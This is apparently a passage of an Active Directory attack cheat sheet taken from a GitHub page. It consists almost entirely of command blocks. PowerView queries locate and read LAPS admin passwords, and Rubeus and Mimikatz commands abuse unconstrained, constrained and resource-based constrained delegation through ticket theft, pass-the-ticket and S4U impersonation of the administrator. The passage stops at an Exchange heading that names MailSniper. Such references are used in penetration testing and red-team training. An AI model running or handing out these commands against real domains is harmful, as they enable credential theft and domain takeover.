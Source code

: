```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-MemberNoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
Get-DomainObject -Identity IDENTITY | select -ExpandProperty ms-mcs-admpwd
```

## Unconstrained Delegation

```
Get-DomainComputer -Unconstrained
MS-RPRN.exe \\TARGET.DOMAIN \\COMPROMISED-UNCONSTRAINED.DOMAIN

Rubeus.exe monitor /interval:5 /targetuser:TARGET$ /nowrap
Rubeus.exe ptt /ticket:BASE64-TICKET

sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
```

## Constrained Delegation

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Rubeus.exe s4u /user:TRUSTED-SERVICE /aes256:AESKEY /impersonateuser:administrator /msdsspn:SERVICE/COMPUTER.DOMAIN /altservice:HTTP,HOST,CIFS /domain:DOMAIN /ptt
```

## Resource Based Constrained Delegation

+ GenericAll/GenericWrite on TARGET

```
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount COMPUTER$/SERVICE

$ComputerSid = Get-DomainComputer COMPUTER$/SERVICE -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer TARGET | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Rubeus.exe s4u /user:COMPUTER$/SERVICE /aes256:AESKEY /msdsspn:SERVICE/TARGET.DOMAIN /impersonateuser:administrator /ptt
```

## Exchange

+ MailSniper
